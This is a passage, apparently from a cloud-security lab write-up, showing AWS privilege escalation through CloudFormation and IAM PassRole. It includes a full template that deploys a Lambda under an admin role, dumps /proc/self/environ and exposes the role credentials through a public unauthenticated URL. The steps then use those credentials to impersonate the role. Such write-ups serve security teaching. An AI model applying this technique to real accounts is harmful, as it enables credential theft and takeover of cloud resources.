 This role has Admin permissions!
To exploit this role we need to perform a step back since `lambda-runner` can't do much except listing functions.
Using the `cloudformation-deployer` we can create a new lambda that uses the `temp-backend-api-role-runner` role using CloudFormation. The PassRole filter is still valid since this new role has the `-runner` suffix.

The CloudFormation Yaml definition is the following:

```yaml
AWSTemplateFormatVersion: "2010-09-09"
Resources:
  Demo1LambdaFun:
    Type: "AWS::Lambda::Function"
    Properties:
      Handler: index.handler
      Role: arn:aws:iam::111111111111:role/demo1/temp-backend-api-role-runner
      Code:
        ZipFile: |
          import os
          import json


          def handler(event, context):
              return open("/proc/self/environ").read()
      Runtime: python3.9
      Timeout: 5

  runtimeLambdaUrl:
    Type: "AWS::Lambda::Url"
    Properties:
      AuthType: NONE
      TargetFunctionArn: !Ref Demo1LambdaFun

  permissionForURLInvoke:
    Type: AWS::Lambda::Permission
    Properties:
      FunctionName: !Ref Demo1LambdaFun
      FunctionUrlAuthType: "NONE"
      Action: lambda:InvokeFunctionUrl
      Principal: "*"

Outputs:
  runtimeLambdaUrl:
    Value: !GetAtt runtimeLambdaUrl.FunctionUrl
```

Execute the deployment and then wait for the lambda to be created. Access the function URL and using the dumped credentials to impersonate the role `temp-backend-api-role-runner`.
Use `aws s3api list-buckets` to list all buckets.
